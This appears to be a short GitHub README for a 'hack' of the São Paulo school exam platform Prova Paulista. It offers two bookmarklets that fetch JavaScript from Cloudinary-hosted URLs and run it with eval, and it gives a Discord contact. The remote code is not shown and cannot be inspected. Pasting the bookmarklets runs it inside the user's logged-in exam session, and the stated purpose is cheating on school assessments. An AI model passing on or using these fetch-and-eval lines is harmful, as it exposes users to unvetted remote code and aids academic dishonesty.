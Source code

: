 # 🚀 HCK - PROVA PAULISTA 

## Version Stable:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
## Version Beta v2:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745543656/saladofuturov2.js").then(t=>t.text()).then(eval);
```

### Discord: hackermoon
